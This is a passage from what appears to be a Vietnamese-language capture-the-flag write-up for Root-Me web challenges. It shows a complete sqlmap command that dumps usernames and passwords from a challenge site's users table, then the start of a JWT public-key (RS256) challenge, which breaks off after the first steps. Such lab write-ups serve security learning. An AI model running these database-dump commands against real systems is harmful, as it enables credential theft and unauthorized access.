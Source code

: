 yay, đã có đủ hết mọi dữ kiện cần thiết, giờ thì dump hết ra thoi

```
./sqlmap.py --dbms=SQLite -D SQLite_masterdb -T users -C "username","password","Year" --dump --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/"
```

![img](./img/8.png)

# JSON Web Token (JWT) - Public key
## Description
You find an API with 3 endpoints:

1. /key (accessible with GET)
2. /auth (accessible with POST)
3. /admin (accessible with POST)

There is sure to be important data in the admin section, access it!

## Solution
như description: 
1. ``/key`` cho mình public key
2. ``/auth`` cho mình 1 jwt với thuật toán ``RS256``

![img](./img/9.png)
